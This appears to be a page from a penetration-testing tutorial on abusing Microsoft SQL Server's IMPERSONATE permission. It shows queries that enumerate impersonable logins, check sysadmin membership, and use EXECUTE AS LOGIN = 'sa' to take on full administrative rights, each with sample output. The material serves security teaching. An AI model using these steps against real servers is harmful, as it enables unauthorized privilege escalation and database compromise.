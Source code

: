 ## **Impersonate Existing Users with MSSQL**

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.

#### **Identify Users that We Can Impersonate**

```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)

```

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:

#### **Verifying our Current User and Role**

```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio

```

#### **Impersonating the SA User**

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa
```

### **Attacking SQL Databases**
